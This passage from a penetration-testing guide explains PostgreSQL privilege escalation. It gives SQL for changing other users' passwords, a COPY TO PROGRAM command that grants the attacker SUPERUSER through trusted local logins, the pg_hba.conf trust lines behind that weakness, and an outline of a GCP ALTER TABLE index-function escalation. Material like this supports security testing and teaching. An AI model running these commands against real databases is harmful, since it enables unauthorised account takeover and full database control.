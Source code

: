 #### Modify Password

Users with this role can also **change** the **passwords** of other **non-superusers**:

```sql
#Change password
ALTER USER user_name WITH PASSWORD 'new_password';
```

#### Privesc to SUPERUSER

It's pretty common to find that **local users can login in PostgreSQL without providing any password**. Therefore, once you have gathered **permissions to execute code** you can abuse these permissions to gran you **`SUPERUSER`** role:

```sql
COPY (select '') to PROGRAM 'psql -U <super_user> -c "ALTER USER <your_username> WITH SUPERUSER;"';
```

> [!NOTE]
> This is usually possible because of the following lines in the **`pg_hba.conf`** file:
>
> ```bash
> # "local" is for Unix domain socket connections only
> local   all             all                                     trust
> # IPv4 local connections:
> host    all             all             127.0.0.1/32            trust
> # IPv6 local connections:
> host    all             all             ::1/128                 trust
> ```

### **ALTER TABLE privesc**

In [**this writeup**](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities) is explained how it was possible to **privesc** in Postgres GCP abusing ALTER TABLE privilege that was granted to the user.

When you try to **make another user owner of a table** you should get an **error** preventing it, but apparently GCP gave that **option to the not-superuser postgres user** in GCP:

<figure><img src="../images/image (537).png" alt=""><figcaption></figcaption></figure>

Joining this idea with the fact that when the **INSERT/UPDATE/**[**ANALYZE**](https://www.postgresql.org/docs/13/sql-analyze.html) commands are executed on a **table with an index function**, the **function** is **called** as part of the command with the **table** **owner’s permissions**. It's possible to create an index with a function and give owner permissions to a **super user** over that table, and then run ANALYZE over the table with the malicious function that will be able to execute commands because it's using the privileges of the owner.
